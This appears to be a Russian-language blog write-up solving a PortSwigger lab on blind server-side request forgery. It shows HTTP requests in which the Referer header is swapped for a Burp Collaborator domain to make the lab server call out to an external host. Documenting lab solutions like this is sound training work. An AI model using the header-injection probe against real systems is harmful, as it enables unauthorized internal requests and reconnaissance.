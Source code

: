 ```yaml
---
title: "Blind SSRF with out-of-band detection"
date: 2025-07-22
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-blind-ssrf-vulnerabilities/ssrf/blind/lab-out-of-band-detection"
classes: wide
---
```


Для решения лабы нужно отправить запроса на `Burp Collaborator`.

```
https://0ab600f6036267f4820a524c001d00da.web-security-academy.net/
```

## Solution

Для начала изучу работу сайта, чтобы собрать `HTTP`-запросы через `Burp Proxy`. 

Попробую потестировать `GET`-запрос для получения страницы товара:

```http
GET /product?productId=6 HTTP/2
Host: 0ab600f6036267f4820a524c001d00da.web-security-academy.net
Cookie: session=lhMELrWr3llpsZocZS22hVgFjTVanfTT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab600f6036267f4820a524c001d00da.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Попробую использовать поле `Referer`, так как оно единственное содержит `URL` и изменяется при переходе от страницы к страницe. Для этого получу `URL` в `Burp Collaborator`: `ub99y5hosk30d0e2615mdnbrmis9gz4o.oastify.com`. Теперь подставлю его в поле:

```http
GET /product?productId=6 HTTP/2
Host: 0ab600f6036267f4820a524c001d00da.web-security-academy.net
Cookie: session=lhMELrWr3llpsZocZS22hVgFjTVanfTT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://ub99y5hosk30d0e2615mdnbrmis9gz4o.oastify.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Ответ:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3913

...

```

Проверю логи `Burp Collaborator`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Blind_SSRF_with_out-of-band_detection/1.png){: height="200" .align-center}

В логах вижу запрос. Значит сервер отправил `HTTP`-запрос. Что и требовалось:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Blind_SSRF_with_out-of-band_detection/2.png){: height="200" .align-center}

